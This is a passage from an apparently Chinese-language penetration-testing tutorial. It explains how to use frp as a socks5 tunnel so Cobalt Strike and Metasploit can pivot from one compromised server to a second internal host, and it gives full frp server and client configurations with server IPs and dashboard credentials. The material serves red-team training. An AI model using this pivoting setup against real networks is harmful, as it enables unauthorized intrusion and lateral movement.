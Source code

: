 

## 六、配合性测试

对内网进行信息探测时，简直是八仙过海各显神通，每位渗透测试工程师，每个团队都有自己常用的手段，内网穿透的方式也不同，所以各位看官在将 frp 用于实际工作中之前一定要自测，是否满足自己的习惯。

在最近几次 HW 中，见到非常多的队伍在拿到服务器权限后，将自己的工具包直接拖到入侵的服务器上，各种小工具，各种exe，扫端口的，扫 IIS PUT 的，扫 17010 的等等，说真的，我都偷偷保存下来，搜集了不少，哈哈哈

不是说这种方式不行，而是太不优雅了，不符合一天要敷8张面膜的妮妮尔优雅大使洛洛梨的典雅气质（能看懂这句话的都是变态QAQ），因此我们通常使用一些后渗透测试框架进行集中管理，比如 CS msf 等

如果我们希望使用 CS 进行总控，frp 作为数据通信隧道，使用msf进行攻击，其实也可以实现

接下来再模拟一个场景，我们拿到一台服务器，CS 上线，使用 frp 隧道建立连接，msf 使用 frp 隧道进行攻击，获取 session 后再转给 CS ，很简单的过程

frp 服务端地址：103.242.135.137

CS 服务端地址：144.48.9.229

被入侵的第一台服务器地址：10.10.99.33

第二台被入侵服务器地址： 192.168.88.85（虚拟机）

首先得到第一台被入侵服务器的权限，设置 frp 客户端

配置 frp 服务端：

```
[common]
bind_addr = 0.0.0.0
bind_port = 7000
bind_udp_port = 7001

dashboard_port = 7500
dashboard_user = su18
dashboard_pwd = X758@Kp9eG1xzyYS
```

配置 frp 客户端：

```
[common]
server_addr = 103.242.135.137
server_port = 7000
tls_enable = true
pool_count = 5


[plugin_socks]
type = tcp
remote_port = 46075
plugin = socks5
use_encryption = true
use_compression = true
group = socks_balancing
group_key = NGbB5#8n
```

